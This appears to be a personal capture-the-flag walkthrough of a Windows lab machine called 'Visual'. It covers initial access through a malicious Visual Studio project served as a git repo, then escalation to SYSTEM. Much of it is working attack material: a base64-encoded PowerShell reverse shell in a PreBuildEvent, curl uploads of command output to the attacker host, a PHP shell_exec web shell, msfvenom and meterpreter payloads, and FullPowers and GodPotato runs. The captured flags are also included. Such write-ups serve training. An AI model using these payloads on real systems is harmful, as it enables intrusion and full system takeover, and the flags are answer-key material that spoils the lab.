





Active box: 45 points or smth
Discover
Nmap
sudo nmap -A -v -T4 -p0- 10.10.11.234
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: Visual - Revolutionizing Visual Studio Builds
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
Web
port 80:

Looking to the requests:
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.11.234 - [09/Oct/2023 20:33:01] code 404, message File not found
10.10.11.234 - [09/Oct/2023 20:33:01] "GET /info/refs?service=git-upload-pack HTTP/1.1" 404Listening on port:
listening on [any] 80 ...
10.10.11.234: inverse host lookup failed: Unknown host
connect to [10.10.14.167] from (UNKNOWN) [10.10.11.234] 51165
GET /info/refs?service=git-upload-pack HTTP/1.1
Host: 10.10.14.167
User-Agent: git/2.41.0.windows.1
Accept: */*
Accept-Encoding: deflate, gzip, br, zstd
Pragma: no-cache
Git-Protocol: version=2Obtain reverse shell
find out how to upload to server
When running a python webserver with the ‘http.server’ module we can see all incomming requests. We can see the following request: "GET /info/refs?service=git-upload-pack HTTP/1.1" 404 On the site it also asks to supply a git repo. So it probably tries to clone a repo and compiles the code
A Quick and Hacky Way to Serve a Git Repo over HTTP - The Art of Machinery - More and more development tools are supporting git repository URLs as a way of pointing to code or data. That’s convenient if you’re working with a mature, third-party repository that’s already hosted, but it means that sometimes you just need a quick way to serve a repo over a web interface for experimental work.
Following commands can be used to make our webserver act like a repo (so it can be cloned):
cd .git
git --bare update-server-info
mv hooks/post-update.sample hooks/post-update
python3 -m http.server 8080Creating payload
Untrustworthy Projects in Visual Studio? - When opening a project you may have recently downloaded, Visual Studio 2013 briefly warns you to only open projects from trustworthy sources. What are some of the risks to opening projects? Can a p...
Executing code upon compile
Pre- and Post-Build Events
In it's simplest form, untrusted projects could execute a Pre-Build event that would delete files. Or worse. Just about anything can be executed within a Build event. This is the 101 stuff that happens on Compile.
Executions on Project Open
Visual Studio project files are nothing more than big MSBuild configurations. There are a few MSBuild targets that Visual Studio executes when you open a project, all to support the tooling. These targets include Compile, ResolveAssemblyReferences, ResolveCOMReferences, GetFrameworkPaths, and CopyRunEnvironmentFiles. If any of these targets exist, the tasks within them are also executed. Delete files, or worse.
See: 'Design-Time Execution' at http://msdn.microsoft.com/en-us/library/ms171468.aspx
IntelliSense
Part of that tooling mentioned above includes IntelliSense, which executes the Compiletask within MSBuild; the CSC/VBC must be executed to get all of the IntelliSense functionality. Because of the nature of IntelliSense, this task is repeatedly executed as you work, rather than the opportunities above that are just run once on open.
See: 'Design-Time IntelliSense' at http://msdn.microsoft.com/en-us/library/ms171468.aspx
Hidden Elsewhere in MSBuild
There is a sea of other routine MSBuild targets that you will manually execute throughout your day, including Build, Rebuild, Test, and Clean. yes, keep in mind that even clean is a build target, so Clean could delete more than just your old \bin directories.
NuGet
Malicious projects may also expose systems via NuGet. Though Package Restore would not be an issue, the packages.config could specify a different Repository Source. Then, when you install a new package, such as install-package jquery, NuGet will retrieve the jQuery package from the untrusted alternate, rather than from nuget.org. This malicious jQuery package could have all sorts of other 'Goodies' within it that would be executed as a part of
the package installation.
This is not a security vulnerability from NuGet, because "you" specified an alternate package source; this is by design, such as Corporations that have their own internal package repository.
Try1: Pre-build event code execution
Build Events Page (Project Designer) · MicrosoftDocs/visualstudio-docs
- Create a C# .NET 6.0 project in visual studio 2022
- Add a
<PrebuildEvent>tag:<Project Sdk="Microsoft.NET.Sdk"> <PropertyGroup> <OutputType>Exe</OutputType> <TargetFramework>net6.0</TargetFramework> <ImplicitUsings>enable</ImplicitUsings> <Nullable>enable</Nullable> <PreBuildEvent>powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=</PreBuildEvent> </PropertyGroup> </Project>- Hacktricks oneliner → https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows#powershell
- Convert to base (using powershell) →
[convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes('cmd')) - In visual studio create a local git repo

- In windows vm > save > create zip and upload to debian VM (attackbox)
Initial access
- cd to the .git folder
- setup webserver →
- The pre-build event is executed on the server and we have a reverse shell
- user: visual\enox
- Flag → e072347fdadfc9d402fa00a5a9e55f1e
Priv escalation
winPEAS
Upload and run:
curl http://10.10.16.2:8080/winPEASany.exe -o wp.exe
.\wp.exe > out.txtDownload:
curl.exe -i -F file=@out.txt http://10.10.16.2:8080Interesting stuff
Permissions over edge?
[+] Installed Applications --Via Program Files/Uninstall registry--
[?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
C:\Program Files (x86)\Microsoft Visual Studio\Installer
C:\Program Files (x86)\Microsoft\EdgeWebView\Application
==> C:\Program Files (x86)\Microsoft\EdgeWebView\Application\SetupMetrics\20230610104140166_2056.pma (Authenticated Users [DeleteSubdirectoriesAndFiles])
==> C:\Program Files (x86)\Microsoft\EdgeWebView\Application\SetupMetrics\20230919030033394_2992.pma (Authenticated Users [DeleteSubdirectoriesAndFiles])Permissions over xampp apache webserver:
[?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
ApacheHTTPServer(Apache Software Foundation - Apache HTTP Server)["C:\Xampp\apache\bin\httpd.exe" -k runservice] - Auto - Running
YOU CAN MODIFY THIS SERVICE: AppendData/CreateDirectories
File Permissions: Everyone [AllAccess]
Possible DLL Hijacking in binary folder: C:\Xampp\apache\bin (Everyone [AllAccess], Users [AppendData/CreateDirectories WriteData/CreateFiles])
Apache/2.4.56 (Win64)Logged in users:
[+] Ever logged users
VISUAL\Administrator
VISUAL\enoxPermission tokens:
[+] Current Token privileges
[?] Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation
SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
SeIncreaseWorkingSetPrivilege: DISABLEDKnown vulnerabilities for this OS:
[?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
OS Build Number: 17763
[!] CVE-2019-0836 : VULNERABLE
[>] https://exploit-db.com/exploits/46718
[>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/
[!] CVE-2019-0841 : VULNERABLE
[>] https://github.com/rogue-kdc/CVE-2019-0841
[>] https://rastamouse.me/tags/cve-2019-0841/
[!] CVE-2019-1064 : VULNERABLE
[>] https://www.rythmstick.net/posts/cve-2019-1064/
[!] CVE-2019-1130 : VULNERABLE
[>] https://github.com/S3cur3Th1sSh1t/SharpByeBear
[!] CVE-2019-1253 : VULNERABLE
[>] https://github.com/padovah4ck/CVE-2019-1253
[!] CVE-2019-1315 : VULNERABLE
[>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html
[!] CVE-2019-1385 : VULNERABLE
[>] https://www.youtube.com/watch?v=K6gHnr-VkAg
[!] CVE-2019-1388 : VULNERABLE
[>] https://github.com/jas502n/CVE-2019-1388
[!] CVE-2019-1405 : VULNERABLE
[>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/trying public exploits
Tried:
- SharpByeBear
- CVE-2019-0836
- …
→ no luck
xammp apache server
While running WinPeas, we found that we have full access to the c:\xampp folder, which is where Apache is hosted. This means we can create our own webpages. Additionally, ChatGPT provided guidance on how to execute shell commands directly.
$output = shell_exec("your_command_here");
echo $output;- create a php file that executes the whoami command
<?php $output = shell_exec("whoami"); echo $output; ?> - put it in the
c:\xampp\htdocsfolder (this is where pages are stored - Access the URL, and you'll notice that commands are executed under a different user, namely
NT AUTHORITY\Local Service.
→ We are in the path
C:\xampp\htdocs - lets try establishing a reverse shell for this user
- Try1: metasploit
msfconsole use multi/handler set payload windows/x64/meterpreter/reverse_tcp set lhost 10.10.16.2 run # create and upload payload msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f exe > shell-x64.exe curl http://10.10.16.2:8080/shell-x64.exe -o shell.exe # modify the php file to execute the code and browse to it
→ Works 🙂 we now have
NT AUTHORITY\LOCAL SERVICE
- Running winpeas as this user
meterpreter> shell powershell "curl http://10.10.16.2:8080/winPEASany.exe -o wp.exe" powershell ".\wp.exe > out.txt" powershell "curl.exe -i -F file=@out.txt http://10.10.16.2:8080"OpenSSH service
ssh-agent(OpenSSH Authentication Agent)[C:\Windows\System32\OpenSSH\ssh-agent.exe] - Disabled - Stopped YOU CAN MODIFY THIS SERVICE: AppendData/CreateDirectories, Start Agent to hold private keys used for public key authentication.Token privs
Se* and you - Portcullis Labs - Inspired by GRSecurity‘s analysis of the Linux capabilities model, I thought I’d take a quick look at how Windows fares. The following is a brief analysis of the threats associated with each Se* privilege.
SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLEDgroups
Current user: LOCAL SERVICE Current groups: Everyone, Users, Service, Console Logon, Authenticated Users, This Organization, Local, S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263, S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331, S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067, S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053, S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462
Restore seImpersonation priv tokens
Apparently, the service accounts
NT AUTHORITY\LOCAL SERVICEandNT AUTHORITY\NETWORK SERVICEcan be exploited to give their permissions ‘back’. By making use of new scheduled tasks etc.Give Me Back My Privileges! Please? - I want to tell you the story of a service account which lost all its powers (a.k.a. privileges). Windows world is getting increasingly ruthless and when the system considers you are not worthy, this is what happens. Fortunately for our service account, all is not lost, there’s still hope. In this merciless world, you can always turn to the old sages to find some comfort and support. Among them, the Task Scheduler might be willing to help and restore what was lost, provided that you ask kindly…
I found a tool on github that automates this process:
https://github.com/itm4n/FullPowers
- Upload binary
curl http://10.10.16.2:8080/FullPowers.exe -o FullPowers.exe - Execute (for some reason only worked in metasploit shell)
C:\Windows\ServiceProfiles\LocalService>FullPowers.exe FullPowers.exe [+] Started dummy thread with id 4900 [+] Successfully created scheduled task. [+] Got new token! Privilege count: 7 [+] CreateProcessAsUser() OK Microsoft Windows [Version 10.0.17763.4851] (c) 2018 Microsoft Corporation. All rights reserved. C:\Windows\system32>whoami whoami nt authority\local service C:\Windows\system32>whoami /priv whoami /priv PRIVILEGES INFORMATION ---------------------- Privilege Name Description State ============================= ========================================= ======= SeAssignPrimaryTokenPrivilege Replace a process level token Enabled SeIncreaseQuotaPrivilege Adjust memory quotas for a process Enabled SeAuditPrivilege Generate security audits Enabled SeChangeNotifyPrivilege Bypass traverse checking Enabled SeImpersonatePrivilege Impersonate a client after authentication Enabled SeCreateGlobalPrivilege Create global objects Enabled SeIncreaseWorkingSetPrivilege Increase a process working set Enabled - Running godpotato
curl http://10.10.16.2:8080/GodPotato-NET4.exe -o gp.exe c:\xampp\htdocs>gp.exe -cmd "cmd /c whoami" gp.exe -cmd "cmd /c whoami" [*] CombaseModule: 0x140732648390656 [*] DispatchTable: 0x140732650696816 [*] UseProtseqFunction: 0x140732650072992 [*] UseProtseqFunctionParamCount: 6 [*] HookRPC [*] Start PipeServer [*] Trigger RPCSS [*] CreateNamedPipe \\.\pipe\c18277b5-488e-4603-af75-cb0ebae1d897\pipe\epmapper [*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046 [*] DCOM obj IPID: 00004c02-0cf4-ffff-5681-1903035d2e8b [*] DCOM obj OXID: 0x5d7916108e711129 [*] DCOM obj OID: 0xa0ceb995b49a58d2 [*] DCOM obj Flags: 0x281 [*] DCOM obj PublicRefs: 0x0 [*] Marshal Object bytes len: 100 [*] UnMarshal Object [*] Pipe Connected! [*] CurrentUser: NT AUTHORITY\NETWORK SERVICE [*] CurrentsImpersonationLevel: Impersonation [*] Start Search System Token [*] PID : 860 Token:0x808 User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation [*] Find System Token : True [*] UnmarshalObject: 0x80070776 [*] CurrentUser: NT AUTHORITY\SYSTEM [*] process start with pid 4392 nt authority\system # start nc listener on port 443 gp.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" PS C:\xampp\htdocs> whoami │ nt authority\system→ Obtained SYSTEM
Flag → 56bae815185e1b7de7836f456ee7999c
- Try1: metasploit
